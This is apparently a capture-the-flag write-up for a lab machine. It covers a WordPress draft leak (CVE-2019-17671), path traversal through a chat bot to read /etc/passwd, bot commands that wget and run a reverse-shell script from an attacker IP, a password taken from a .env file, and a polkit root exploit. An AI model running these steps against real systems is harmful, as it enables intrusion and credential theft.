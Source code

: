 ## Credential


## Path
### User
1. `mod_fcgid` is FastCGI. After test, `/cgi-bin/` returns 403 Forbidden, which means CGI program exists.
2. Found HTTP header `X-Backend-Server: office.paper`, so set `office.paper` as hostname in `/etc/hosts`. Then visit `office.paper`.
3. Wordpress users: `nick`, `Prisonmike`
3. `/index.php/wp-json/` is the API endpoint of Wordpress, worth to take a look.
4. See some pages that not shown on `http://office.paper/index.php/wp-json/wp/v2/pages` by examing the API.
5. From the hint in the publiched posts and the result of `wpscan`, I found this vuln leak the draft by visiting `http://office.paper/?static=1`. And it reveals a chat service register page.
```
$ cat wordpress/wpscan-api.out
 | [!] Title: WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17671
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |      - https://github.com/WordPress/WordPress/commit/f82ed753cf00329a5e41f2cb6dc521085136f308
 |      - https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/

$ curl http://office.paper/?static=1
<p>http://chat.office.paper/register/8qozr226AhkCHZdyY</p>
```
6. From the conversation in the chat, we can send `recyclops file ../../../../../../../../../etc/passwd` to read files on the box, use `recyclops list ..` for `ls`
7. Use `recyclops run {cat,/etc/passwd}' to execute command.
```
recyclops run {wget,10.10.17.233:8000/rev.sh}
recyclops run {sh,./rev.sh}
```
8. The password of `dwight` is in `/home/dwight/hubot/.env`.

### Root
1. CentOS 8 is vulnerable to [CVE-2021-3560](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation), so run the script and get root.
